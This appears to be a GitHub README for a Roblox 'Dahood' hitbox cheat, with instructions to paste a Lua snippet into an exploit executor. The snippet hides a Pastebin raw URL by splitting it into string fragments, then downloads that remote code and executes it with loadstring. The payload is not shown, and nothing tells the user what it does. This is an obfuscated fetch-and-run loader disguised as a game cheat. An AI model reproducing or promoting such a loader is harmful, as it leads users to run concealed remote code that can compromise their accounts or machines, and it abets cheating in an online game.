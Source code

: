 # Dahood 

![Game Image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTLboKdAc9ZSkAmDaI32_GbMTaXBx_b5nG5BaYBz16ACT5vFLEK6vDNFDs&s)

## Features

- Only hitbox  
- Customize hitbox

---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)

```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
